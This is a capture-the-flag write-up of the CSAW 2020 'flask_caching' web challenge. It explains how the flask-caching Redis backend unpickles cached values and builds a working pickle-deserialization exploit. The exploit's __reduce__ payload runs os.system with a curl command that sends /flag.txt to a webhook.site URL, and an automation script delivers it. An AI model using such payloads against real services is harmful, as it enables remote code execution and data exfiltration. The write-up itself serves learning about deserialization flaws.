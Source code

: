 ```yaml
---
ctf: csaw
year: 2020
tags:
  - web
  - ace
---
```


# CSAW Qualifiers

## Web

### flask_caching

We were presented with a simple Flask server,
we can see the code bellow (see the [full code](../assets/code/csaw/app.py)).

```python
#!/usr/bin/env python3

from flask import Flask
from flask import request, redirect
from flask_caching import Cache
from redis import Redis
import jinja2
import os

app = Flask(__name__)
app.config['CACHE_REDIS_HOST'] = 'localhost'
app.config['DEBUG'] = False

cache = Cache(app, config={'CACHE_TYPE': 'redis'})
redis = Redis('localhost')
jinja_env = jinja2.Environment(autoescape=['html', 'xml'])


@app.route('/', methods=['GET', 'POST'])
def notes_post():
    if request.method == 'GET':
        return '''
        <h4>Post a note</h4>
        <form method=POST enctype=multipart/form-data>
        <input name=title placeholder=title>
        <input type=file name=content placeholder=content>
        <input type=submit>
        </form>
        '''

    print(request.form, flush=True)
    print(request.files, flush=True)
    title = request.form.get('title', default=None)
    content = request.files.get('content', default=None)

    if title is None or content is None:
        return 'Missing fields', 400

    content = content.stream.read()

    if len(title) > 100 or len(content) > 256:
        return 'Too long', 400

    redis.setex(name=title, value=content, time=10)  # Note will only live for max 30 seconds

    return 'Thanks!'


# This caching stuff is cool! Lets make a bunch of cached functions.

@cache.cached(timeout=10)
def _test0():
    return 'test'
@app.route('/test0')
def test0():
    _test0()
    return 'test'

if __name__ == "__main__":
    app.run('0.0.0.0', 5000)
```

Analyzing the code, top to bottom we see that the server uses Redis as a cache, no big deal with that.
However, the way it is being used is weird.

Whenever a new note is being posted,
the "raw" operation is used,
however when using the test endpoints the calls are wrapped with the `@cache.cached` decorator.

Furthermore, the test endpoints always return `'test'` so even if we store something there we will not have direct feedback.

Following the decorator rabbit hole to the [`rediscache.py`](https://github.com/sh4nks/flask-caching/blob/9bd8365aa5bac9fb91e9e7ddc663ff087a97ab7a/flask_caching/backends/rediscache.py#L112-L115) we find the following:

```python
def get(self, key):
    return self.load_object(
        self._read_clients.get(self._get_prefix() + key)
    )
```

And following the `load_object`:

```python
def load_object(self, value):
    """The reversal of :meth:`dump_object`.  This might be called with
    None.
    """
    if value is None:
        return None
    if value.startswith(b"!"):
        try:
            return pickle.loads(value[1:])
        except pickle.PickleError:
            return None
    try:
        return int(value)
    except ValueError:
        # before 0.8 we did not have serialization.  Still support that.
        return value
```

Seeing `pickle.loads` means we have a winner.

According to the [documentation](https://docs.python.org/3/library/pickle.html):

> Warning
>
> The pickle module is not secure. Only unpickle data you trust.
>
> It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

Triggering the deserialization is easy,
just start the content with `!` and the cache will take care of the rest for use.

Now we just need to create a payload and find the cache key.

First, the cache key as it is the easiest part.

- Run `app.py` with a Redis instance (increase the cache timer if necessary).
- Send a GET request to one of the test endpoints.
- Use `redis-cli` to retrieve all stored keys with `redis-cli keys "*"`.
- You now know the key is `flask_cache_view//testN` where `N` is the test endpoint number.

We now move on to the pickle.

With a quick search we find that this is called pickle shellcode,
the idea is to serialize a pickle with executes code on deserialization.

I found [this GitHub gist](https://gist.github.com/0xBADCA7/f4c700fcbb5fb8785c14) which shows a "framework" to write "bad" pickles.

From there we write our exploit class:

```python
class Exploit():
    def __reduce__(self):
        return (os.system, ('curl https://webhook.site/<id>?flag=`cat /flag.txt`', ))
```

This works because `pickle` allows objects to decide how to be pickled using the `__reduce__` method,
hence we return a tuple of a `callable` and its arguments.

Using `os.system` we can launch an arbitrary process,
I used `curl` to send a request to `webhook.site` with the flag as a query parameter.

Now we just [automate](../assets/code/csaw/exploit.py) the whole process,
serializing the Exploit object to bytes,
send the bytes as a file and request the test endpoint.

```python
url = "http://web.chal.csaw.io:5000/"

class Exploit():
    def __reduce__(self):
        return (os.system, ('curl https://webhook.site/127d80d9-c737-44fe-95b3-c053849634a5?flag=`cat /flag.txt`', ))

bad_pickle = b"!" + pickle.dumps(Exploit())
requests.post(url,
    data={"title":"flask_cache_view//test0"},
    files={"content":bad_pickle})
requests.get(url + "/test0")
```